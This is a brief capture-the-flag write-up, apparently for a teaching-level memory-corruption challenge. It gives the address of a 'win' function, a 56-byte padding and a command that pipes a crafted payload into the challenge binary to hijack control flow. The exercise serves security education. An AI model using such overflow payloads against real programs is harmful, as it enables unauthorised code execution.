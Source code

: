 The address of the function `win` is `0x40223f`. You can find it with `objdump`.

As mentioned in the challenge, the padding should be 56 bytes and the payload is the address of the function `win`.

These commands will lead you to the flag.
```
./run.py
(echo "64"; cat payload; cat) | /babymem_level3_teaching1
```
